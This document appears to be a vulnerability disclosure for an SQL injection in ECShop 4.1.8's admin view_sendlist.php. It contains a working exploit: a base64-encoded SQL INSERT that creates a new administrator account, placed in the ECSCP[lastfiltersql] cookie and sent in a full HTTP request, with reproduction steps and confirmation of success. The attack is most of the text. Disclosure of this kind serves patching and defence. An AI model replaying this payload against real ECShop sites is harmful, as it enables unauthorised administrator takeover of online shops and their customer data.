 # ecshop

ECSHOP, 4.1.8, SQL Injection

# Vulnerabilities Reproduction:
Log in to the backend, visit the view_ sendlist.php, and then capture the packet.

Enter the SQL statement to be executed, and then convert it into base64 encoding. Here we take adding the test administrator user as an example.
   
<img width="415" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/235fd585-510c-48a4-b749-163d3765b972">

Here is the base64 encoding.
aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=

Get the value of ECSCP[lastfilterfile], here is F8F2F4EC.

Send the request package, and replace the previous cookie, or  just add the following string to the original cookie.
act=query&uselastfilter=1
ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Successfully executed SQL statement.

GET /ECShop_V4.1.13/ECShop/source/ecshop/admin/view_sendlist.php?act=query&uselastfilter=1 HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: loginNum=4; ECS_LastCheckOrder=Wed%2C%2011%20Jan%202023%2014%3A38%3A48%20GMT; ECS[visit_times]=13; Hm_lvt_f6f37dc3416ca514857b78d0b158037e=1672820048; PHPSESSID=c80bf1de9332905dbf330e4fc2929cc4; JSESSIONID=7BAE8239C62E8C6B4AC401F85773ACED; ECSCP_ID=d9c053c22fb93a4801ea199b40025da9ec8286d3;ECSCP[lastfiltersql]=aW5zZXJ0IGludG8gZWNzX2FkbWluX3VzZXIodXNlcl9uYW1lLGVtYWlsLHBhc3N3b3JkLGFjdGlvbl9saXN0LG5hdl9saXN0LGFnZW5jeV9pZCkgdmFsdWVzKCd0ZXN0JywnMTIzMTIzQDEyMy5jb20nLCc0ZmNlZDlhYTY2YzQzZTVmYzg3ZDVmOTE3NjIwMWViMycsJzEnLCcxJywnMScpOyM=;ECSCP[lastfilterfile]=F8F2F4EC;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1

<img width="484" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/165d612d-27e7-4d54-9ac8-0e4cac2e9b68">

<img width="489" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/43846d1c-9192-415f-a0fa-9335f730d9e2">


Refresh the database and find that the user is successfully added, or the logged-in user finds that he can also log in successfully.
   <img width="752" alt="image" src="https://github.com/curlyyyyyyyy/ecshop/assets/155808433/f4c894ca-e513-4499-b0a1-ee64c01dac15">

 

